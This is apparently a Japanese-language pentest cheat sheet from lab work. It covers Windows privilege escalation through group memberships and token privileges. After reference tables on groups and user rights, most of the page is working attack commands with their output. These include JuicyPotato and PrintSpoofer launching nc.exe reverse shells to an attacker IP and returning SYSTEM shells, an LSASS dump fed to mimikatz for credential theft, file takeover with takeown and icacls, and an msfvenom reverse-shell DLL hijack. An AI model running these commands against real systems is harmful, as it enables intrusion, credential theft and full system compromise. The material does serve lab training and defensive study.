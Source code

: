 
# Windows における権利と特権

これらは、Windows ワークステーション、サーバー、またはドメイン コントローラー (DC) 上のドメイン管理者、ローカル管理者、または SYSTEM 権限を取得するために悪用できる

| **グループ**                    | **説明**                                                                                                                                                                          |
| --------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Default Administrators      | Domain Admins と Enterprise Admins は `super` グループ                                                                                                                                |
| Server Operators            | メンバーはサービスを変更したり、SMB 共有にアクセスしたり、ファイルをバックアップしたりできる                                                                                                                                |
| Backup Operators            | メンバーはローカルで DC にログオンすることが許可されており、ドメイン管理者とみなされる。 SAM/NTDS データベースのシャドウ コピーを作成し、リモートでレジストリを読み取り、SMB 経由で DC 上のファイル システムにアクセスできる。このグループは、DC 以外のローカルの Backup Operators グループに追加される場合がある |
| Print Operators             | メンバーは DC にローカルでログオンし、Windows を「だまして」悪意のあるドライバーを読み込ませることができます                                                                                                                    |
| Hyper-V Administrators      | 仮想 DC がある場合、Hyper-V 管理者のメンバーなどの仮想化管理者はドメイン管理者とみなされる                                                                                                                             |
| Account Operators           | メンバーは、ドメイン内の保護されていないアカウントとグループを変更できます                                                                                                                                           |
| Remote Desktop Users        | デフォルトではメンバーには有用なアクセス許可は与えられないが、多くの場合、`リモート デスクトップ サービスを介したログインを許可する`などの追加の権限が付与され、RDP プロトコルを使用して横方向に移動できる                                                                       |
| Remote Management Users     | メンバーは、PSRemoting を使用して DC にログオンできる (このグループは、DC 以外のローカル リモート管理グループに追加される場合がある)。                                                                                                  |
| Group Policy Creator Owners | メンバーは新しい GPO を作成できるが、GPO をドメインや OU などのコンテナーにリンクするには追加のアクセス許可を委任する必要がある                                                                                                          |
| Schema Admins               | メンバーは、侵害されたアカウントをデフォルトのオブジェクト ACL に追加することで、Active Directory スキーマ構造を変更し、作成予定のグループ/GPO をバックドアにすることができる                                                                            |
| DNS Admins                  | メンバーは DC に DLL をロードできるが、DNS サーバーを再起動するために必要な権限がない。悪意のある DLL をロードし、永続化メカニズムとして再起動を待機する可能性がある。 DLL をロードすると、多くの場合、サービスがクラッシュする。このグループを悪用するより確実な方法は、WPAD レコードを作成すること                |

# ユーザー権利の割り当て

これらの権限により、ユーザーはローカルまたはリモートでのログオン、ネットワークからのホストへのアクセス、サーバーのシャットダウンなどのタスクをシステム上で実行できるようになる

このマイクロソフトの記事 [User Rights Assignment](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/user-rights-assignment) では、Windows で設定できる各ユーザー権利と、各権利に適用されるセキュリティに関する考慮事項について書かれている

| 設定 [定数](https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants) | 設定名                                                       | 標準割り当て                                            | 説明                                                         |
| ------------------------------------------------------------ | ------------------------------------------------------------ | ------------------------------------------------------- | ------------------------------------------------------------ |
| SeNetworkLogonRight                                          | [Access this computer from the network](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/access-this-computer-from-the-network) | Administrators, Authenticated Users                     | どのユーザーがネットワークからデバイスに接続できるかを決定する。これは、SMB、NetBIOS、CIFS、COM+ などのネットワーク プロトコルで必要 |
| SeRemoteInteractiveLogonRight                                | [Allow log on through Remote Desktop Services](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/allow-log-on-through-remote-desktop-services) | Administrators, Remote Desktop Users                    | このポリシー設定は、リモート デスクトップ サービス接続を通じてリモート デバイスのログイン画面にアクセスできるユーザーまたはグループを決定する。ユーザーは特定のサーバーへのリモート デスクトップ サービス接続を確立できるが、同じサーバーのコンソールにログオンすることはできない |
| SeBackupPrivilege                                            | [Back up files and directories](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/back-up-files-and-directories) | Administrators                                          | このユーザー権利は、システムをバックアップする目的で、ファイル、ディレクトリ、レジストリ、およびその他の永続オブジェクトのアクセス許可をバイパスできるユーザーを決定する |
| SeSecurityPrivilege                                          | [Manage auditing and security log](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/manage-auditing-and-security-log) | Administrators                                          | このポリシー設定は、ファイル、Active Directory オブジェクト、レジストリ キーなどの個々のリソースに対してオブジェクト アクセス監査オプションを指定できるユーザーを決定する。これらのオブジェクトは、システム アクセス制御リスト (SACL) を指定する。このユーザー権利を割り当てられたユーザーは、イベント ビューアーでセキュリティ ログを表示およびクリアすることもできる |
| SeTakeOwnershipPrivilege                                     | [Take ownership of files or other objects](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/take-ownership-of-files-or-other-objects) | Administrators                                          | このポリシー設定は、Active Directory オブジェクト、NTFS ファイルとフォルダー、プリンター、レジストリ キー、サービス、プロセス、スレッドなど、デバイス内のセキュリティ保護可能なオブジェクトの所有権をどのユーザーが取得できるかを決定する |
| SeDebugPrivilege                                             | [Debug programs](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/debug-programs) | Administrators                                          | このポリシー設定は、どのユーザーがプロセス (自分が所有していないプロセスであっても) にアタッチしたり、プロセスを開いたりできるかを決定する。アプリケーションをデバッグしている開発者には、このユーザー権利は必要ない。新しいシステム コンポーネントをデバッグする開発者には、このユーザー権利が必要。このユーザー権利により、機密性の高い重要なオペレーティング システム コンポーネントへのアクセスが提供される |
| SeImpersonatePrivilege                                       | [Impersonate a client after authentication](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/impersonate-a-client-after-authentication) | Administrators, Local Service, Network Service, Service | このポリシー設定は、どのプログラムがユーザーまたは別の指定されたアカウントになりすましてユーザーの代わりに動作することを許可するかを決定する |
| SeLoadDriverPrivilege                                        | [Load and unload device drivers](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/load-and-unload-device-drivers) | Administrators                                          | このポリシー設定は、どのユーザーがデバイス ドライバーを動的にロードおよびアンロードできるかを決定する。新しいハードウェア用の署名付きドライバーがデバイス上の driver.cab ファイルにすでに存在する場合、このユーザー権利は必要ない。デバイス ドライバーは高度な特権コードとして実行される |
| SeRestorePrivilege                                           | [Restore files and directories](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/restore-files-and-directories) | Administrators                                          | このセキュリティ設定は、バックアップされたファイルとディレクトリを復元するときに、どのユーザーがファイル、ディレクトリ、レジストリ、その他の永続オブジェクトのアクセス許可をバイパスできるかを決定する。これにより、どのユーザーがオブジェクトの所有者として有効なセキュリティ プリンシパルを設定できるかが決まる |

`whoami /priv`で現在のユーザーに割り当てられているすべてのユーザー権限のリストが表示

アカウントの特権が`Disabled`でリストされている場合、それはアカウントに特定の特権が割り当てられていることを意味する。ただし、有効になるまでは、アクセス トークンで使用して、関連するアクションを実行することはできない

```powershell-session
PS C:\hatto> whoami 

winlpe-srv01\administrator


PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Disabled
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Disabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Disabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Disabled
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Disabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Disabled
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
SeTimeZonePrivilege                       Change the time zone                                               Disabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Disabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Disabled 
```

この記事 [Enable All Token Privileges](https://medium.com/@markmotig/enable-all-token-privileges-a7d21b1a4a77) で紹介されているスクリプトを使用することですべてのトークン権限を有効にできる



# SeImpersonatePrivilege

`whoami /priv`などで `SeImpersonatePrivilege` がリストされている場合 `JuicyPotato` をしようすることで `DCOM/NTLM` リフレクションを悪用を介して `SeImpersonate` または `SeAssignPrimaryToken` 権限を悪用することができる

## JuicyPotato を使用した権限の昇格

これらの権限を使用して権限を昇格するには、まず `JuicyPotato.exe` バイナリをダウンロードし、これと `nc.exe` をターゲット サーバーにアップロードする。次に、ポート 8443 で Netcat リスナーを起動し、以下のコマンドを実行する。ここで、`-l` は COM サーバーのリスニング ポート、`-p` は起動するプログラム (cmd.exe)、`-a` は cmd.exe に渡される引数です。 `-t` は createprocess 呼び出し。以下では、`CreateProcessWithTokenW` 関数と `CreateProcessAsUser` 関数の両方を試行するようにツールに指示している。これらの関数には、それぞれ `SeImpersonate` 権限または `SeAssignPrimaryToken` 権限が必要

`impacket-mssqlclient` からの実行例

```
SQL (WINLPE-SRV01\sql_dev  dbo@master)> enable_xp_cmdshell
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (WINLPE-SRV01\sql_dev  dbo@master)> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.16.8 8443 -e cmd.exe" -t *
output                                                       
----------------------------------------------------------   
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 53375         

......                                                       

[+] authresult 0                                             

{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM   

NULL                                                         

[+] CreateProcessWithTokenW OK                               

[+] calling 0x000000000088ce08                               

NULL                                                         

SQL (WINLPE-SRV01\sql_dev  dbo@master)>          
```

正常に完了し、`NT AUTHORITY\SYSTEM` としてシェルを受け取ることができる

```
hatto@VMWare-Kali [11時55分02秒] [~] 
-> % rlwrap -cAr nc -lvnp 8443       
listening on [any] 8443 ...
connect to [10.10.16.8] from (UNKNOWN) [10.129.43.43] 49702
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
C:\Windows\system32>
```

## PrintSpoofer を使用した権限の昇格

JuicyPotato は、Windows Server 2019 および Windows 10 ビルド 1809 以降では動作しない。ただし、`PrintSpoofer` と `RoguePotato` を使用すると、同じ権限を活用し、`NT AUTHORITY\SYSTEM` レベルのアクセスを取得できる

`-c` 引数を指定してツールを使用してコマンドを実行します。ここでは、`nc.exe` を使用してリバース シェルを生成します (Netcat リスナーがポート 8443 の攻撃ボックスで待機しています)。

`impacket-mssqlclient` からの実行例

```
SQL (WINLPE-SRV01\sql_dev  dbo@master)> xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.16.8 8443 -e cmd"
output                                        
-------------------------------------------   
[+] Found privilege: SeImpersonatePrivilege   

[+] Named pipe listening...                   

[+] CreateProcessAsUser() OK                  

NULL                                          

SQL (WINLPE-SRV01\sql_dev  dbo@master)> 
```

正常に完了し、`NT AUTHORITY\SYSTEM` としてシェルを受け取ることができる

```
hatto@VMWare-Kali [12時26分45秒] [~] 
-> % rlwrap -cAr nc -lvnp 8443
listening on [any] 8443 ...
connect to [10.10.16.8] from (UNKNOWN) [10.129.43.43] 49719
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```



# SeDebugPrivilege

この特権を使用すると、他のプロセスのデバッグが許可され、メモリ内の読み書きが可能になる。この特権を使用して、ほとんどのアンチウイルスおよびホスト侵入防止ソリューションを回避できるさまざまなメモリインジェクション戦略を適用できる

## メモリのダンプ

[ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) を [SysInternals Suite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) から使用して、プロセスのメモリをキャプチャできる。具体的には、これはユーザーがシステムに正常にログインした後にユーザーの資格情報を保存する**Local Security Authority Subsystem Service (LSASS)**プロセスに適用できる

```cmd-session
C:\hatto> procdump.exe -accepteula -ma lsass.exe lsass.dmp

ProcDump v10.0 - Sysinternals process dump utility
Copyright (C) 2009-2020 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[15:25:45] Dump 1 initiated: C:\Tools\Procdump\lsass.dmp
[15:25:45] Dump 1 writing: Estimated dump file size is 42 MB.
[15:25:45] Dump 1 complete: 43 MB written in 0.5 seconds
[15:25:46] Dump count reached.
```

その後、このダンプをmimikatzに読み込んでパスワードを取得できる

```cmd-session
mimikatz.exe
mimikatz # log
mimikatz # sekurlsa::minidump lsass.dmp  # sekurlsa::minidump で lsass.dmp を Mimikatz にロードする
mimikatz # sekurlsa::logonpasswords      # ローカル管理者アカウントの NTLM ハッシュを取得
```

## RCE

`NT SYSTEM`のシェルを取得したい場合は、次の方法があります：

- [**SeDebugPrivilege-Exploit (C++)**](https://github.com/bruno-1337/SeDebugPrivilege-Exploit)
- [**SeDebugPrivilegePoC (C#)**](https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC)
- [**psgetsys.ps1 (Powershell Script)**](https://github.com/decoder-it/psgetsystem)

PIDの取得には `tasklist` で取得できる (主に `winlogon.exe`のPIDを取得して `c:\windows\system32\cmd.exe` を起動させる)

```powershell
PS> Import-module psgetsys.ps1 
PS> ImpersonateFromParentPid -ppid <parentpid> -command <command to execute> -cmdargs <command arguments>    # -cmdargsは""にする
```



# SeTakeOwnershipPrivilege

この権限は`Active Directory object`, `NTFS file/folder`, `printers`, `registry keys`, `services`, `processes` などのセキュリティで保護されたオブジェクトの所有権をユーザに付与できる。管理者にはデフォルトで割り振られているが実際に標準ユーザーでこの権限が割り振られているアカウントに遭遇することはあまりない

つまり、権限がなくて参照できないファイルなどを参照できる権限を付与することができる

## 興味深いファイル

```shell-session
c:\inetpub\wwwwroot\web.config
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, 
%WINDIR%\repair\security
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
```

## SeTakeOwnershipPrivilege を有効にする

権限が `Disabled` になっている場合 [EnableAllTokenPrivs.ps1](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1) を使用して権限を有効にできる

もしくはこの記事 [Enable All Token Privileges](https://medium.com/@markmotig/enable-all-token-privileges-a7d21b1a4a77) で紹介されているスクリプトを使用することですべてのトークン権限を有効にできる

## ファイルの所有権の取得

[Takeown](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/takeown) Windows バイナリを使用してファイルの所有権を変更できる

`C:\Department Shares\Private\IT\cred.txt` の所有権を取得する

```powershell-session
C:\hatto> takeown /f 'C:\Department Shares\Private\IT\cred.txt'
 
SUCCESS: The file (or folder): "C:\Department Shares\Private\IT\cred.txt" now owned by user "WINLPE-SRV01\hatto".
```

## 所有権の変更の確認

```powershell-session
PS C:\hatto> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}
 
Name     Directory                       Owner
----     ---------                       -----
cred.txt C:\Department Shares\Private\IT WINLPE-SRV01\hatto
```

## ファイルACLの変更

ファイルをまだ読み取れない可能性があるため、ファイルを読み取れるようにするには、[icacls](https://learn.microsoft.com/ja-jp/windows-server/administration/windows-commands/icacls) を使用してファイル ACL を変更する

```powershell-session
PS C:\hatto> icacls 'C:\Department Shares\Private\IT\cred.txt' /grant <権限を与えるユーザー名>:F

processed file: C:\Department Shares\Private\IT\cred.txt
Successfully processed 1 files; Failed processing 0 files
```



# SeManageVolumePrivilege

SeManageVolumePrivilegeは、ボリュームメンテナンスタスクを実行するためのユーザーサービス権限を許可する。これにより、ディスク上のユーザー権限の割り当てを変更できるようになる

以下のエクスプロイトスクリプトをターゲットマシン上で実行する

[SeManageVolumeExploit](https://github.com/CsEnox/SeManageVolumeExploit)

## DLL Hijacking

スクリプトを実行することで `C:`ドライブ内System32を含むの任意のファイルに書き込むことができる

msfvenomで `tzres.dll` とうリバースシェルを作成する。これは `systeminfo` コマンドを実行したときに呼び出されるdll

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attack ip> LPORT=1337 -f dll -o tzres.dll
```

ターゲットマシンの `C:\Windows\System32\wbem\tzres.dll` にコピーしてリスナーを起動、 `systeminfo` を実行することでシェルを取得できる






